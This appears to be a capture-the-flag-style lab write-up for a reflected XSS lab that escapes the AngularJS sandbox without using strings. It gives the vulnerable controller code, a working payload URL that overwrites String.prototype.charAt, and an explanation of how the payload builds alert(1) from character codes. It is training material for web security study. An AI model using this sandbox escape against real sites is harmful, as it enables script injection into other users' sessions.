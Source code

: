 

### **AngularJS sandbox**

#### Reflected XSS with AngularJS sandbox escape without strings

> This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS. To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function. 
>

Observe the input 1

```javascript
<script>
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) { 
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = '1';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl" class="ng-scope ng-binding">3 search results for 1</h1>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <p>
                    Visit the following URL, replacing <code>your-lab-id</code> with your lab ID:
                </p>
                    <code class="code-scrollable">https://your-lab-id.web-security-academy.net/?search=1&amp;toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1</code>
                <p>
                    The exploit uses <code>toString()</code> to create a string without using quotes. It then gets the <code>String</code> prototype and overwrites the <code>charAt</code> function for every string. This effectively breaks the AngularJS sandbox. Next, an array is passed to the <code>orderBy</code> filter. We then set the argument for the filter by again using <code>toString()</code> to create a string and the <code>String</code> constructor property. Finally, we use the <code>fromCharCode</code> method generate our payload by converting character codes into the string <code>x=alert(1)</code>. Because the <code>charAt</code> function has been overwritten, AngularJS will allow this code where normally it would not.
                </p>
            </div>
        </div>

```javascript
// 1&'a'.constructor.prototype.charAt%3d[].join;[1]|orderBy:'a'.constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
<script>
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = '1';
                            $scope.value = $parse(key)($scope.query);
                            var key = 'toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)';
                            $scope.query[key] = '1';
                            $scope.value = $parse(key)($scope.query);
                        });
});</script>
<h1 ng-controller="vulnCtrl" class="ng-scope ng-binding">3 search results for {{value}}</h1>
```
